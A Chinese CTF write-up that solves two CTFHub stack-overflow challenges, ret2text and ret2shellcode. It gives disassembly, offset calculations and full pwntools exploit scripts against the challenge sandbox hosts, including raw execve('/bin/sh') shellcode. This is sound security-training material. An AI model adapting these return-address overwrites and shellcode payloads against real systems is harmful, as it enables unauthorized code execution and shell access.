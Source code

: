 ```yaml
---
title: CTFHub PWN刷题
date: 2020-07-09 17:17:40
tags: PWN
categories:
 - CTF
---
```


# CTFHub PWN刷题

最近在CTFHub的PWN技能树中找了两道题来学习栈溢出——ret2text和ret2shellcode

这两道题出的还是很基础的，吃透栈溢出的基本概念就可以将题目解出。

<!-- more -->

## ret2text writeup

先用checsec检查一下文件的保护类型

```markdown
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

可以看出没有采取任何的栈保护

再用IDA打开文件，看到函数中有system函数，搜素字符串发现secure函数中出现了`system("/bin/sh")`，再看主函数的伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-70h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Welcome to CTFHub ret2text.Input someting:");
  gets(&v4, 0LL);
  puts("bye");
  return 0;
}
```

可以看到`gets函数`存在明显的溢出漏洞，所以利用`gets函数`，输入足够长的字符串，达到溢出栈的目的。查看变量的位置，为 `[rbp-0x70]`。由于是64位系统，要覆盖掉ebp，就要+8字节。因此 字符串长度为  `0x70 + 8`

再用反汇编查看secure函数的代码，确定system("/bin/sh")的地址为`0x00000000004007b8`，即`0x4007b8`

```assembly
   0x0000000000400777 <+0>:	push   rbp
   0x0000000000400778 <+1>:	mov    rbp,rsp
   0x000000000040077b <+4>:	sub    rsp,0x10
   0x000000000040077f <+8>:	mov    edi,0x0
   0x0000000000400784 <+13>:	call   0x400640 <time@plt>
   0x0000000000400789 <+18>:	mov    edi,eax
   0x000000000040078b <+20>:	call   0x400630 <srand@plt>
   0x0000000000400790 <+25>:	call   0x400680 <rand@plt>
   0x0000000000400795 <+30>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400798 <+33>:	lea    rax,[rbp-0x8]
   0x000000000040079c <+37>:	mov    rsi,rax
   0x000000000040079f <+40>:	lea    rdi,[rip+0x122]        # 0x4008c8
   0x00000000004007a6 <+47>:	mov    eax,0x0
   0x00000000004007ab <+52>:	call   0x400670 <__isoc99_scanf@plt>
   0x00000000004007b0 <+57>:	mov    eax,DWORD PTR [rbp-0x8]
   0x00000000004007b3 <+60>:	cmp    DWORD PTR [rbp-0x4],eax
   0x00000000004007b6 <+63>:	jne    0x4007c4 <secure+77>
   0x00000000004007b8 <+65>:	lea    rdi,[rip+0x10c]       ; "/bin/sh"
   0x00000000004007bf <+72>:	call   0x400620 <system@plt>
   0x00000000004007c4 <+77>:	nop
   0x00000000004007c5 <+78>:	leave  
   0x00000000004007c6 <+79>:	ret
```

得到以上两个值之后就可以写exp了

```python
from pwn import *

host = 'challenge-6d9543332f6f24b5.sandbox.ctfhub.com'
port = 33698

#p = process("./pwn")
p = connect(host, port)
payload = 'A' * 0x78 + p64(0x4007b8)
p.sendline(payload)
p.interactive()
```

之后就能拿到flag了

## ret2shellcode writeup

使用checksec查看一下文件的保护

```markdown
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

依旧没有采取任何的保护，再用IDA打开，查看文件的代码。

因为函数中不包含system函数，用file查看文件时也显示使用动态链接，然而题中并未提供动态链接库，因此ret2libc的思路是行不通的，也无法使用ROP。因此采用ret2shellcode的功能

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-10h]
  __int64 v5; // [rsp+8h] [rbp-8h]

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to CTFHub ret2shellcode!");
  printf("What is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Input someting : ");
  read(0, &buf, 0x400uLL);
  return 0;
}
```

在伪代码  `printf("What is it : [%p] ?\n", &buf, 0LL, 0LL);`中可以看到`printf函数`会把变量`buf`的地址输出，因此可以直接读取`buf`的地址。

 `__int64 buf; // [rsp+0h] [rbp-10h]`可以得出`buf`对`rbp`的偏移量为`0x10`，因此我们需要溢出的空间为`16 + 8 = 24`，而偏移地址为`buf_addr+32`(32 = 24 + 8)。

最后生成shellcode，shellcode可以使用pwntools中函数生成

```python
from pwn import *
shellcode=asm(shellcraft.sh())
```

也可以直接使用

```bash
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

两个测试过都可以pwn通，根据喜好选择。

之后就能构造payload

```bash
'a'*24+[buf_addr+32]+shellcode
```

然后编写完整的EXP

```python
from pwn import *

host = 'challenge-73515f640e7d1aa5.sandbox.ctfhub.com'
port = 36434

#p = process('./ret2shellcode')
p = connect(host,port)
p.recvuntil('[')
buf_addr = p.recvuntil(']', drop=True) # 获取buf地址
# print buf_addr
p.recvuntil('Input someting : ') # 执行直到出现这句话
shell="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.sendline('a'*24 + p64(int(buf_addr,16)+32) + shell)
p.interactive()
```

最后得到flag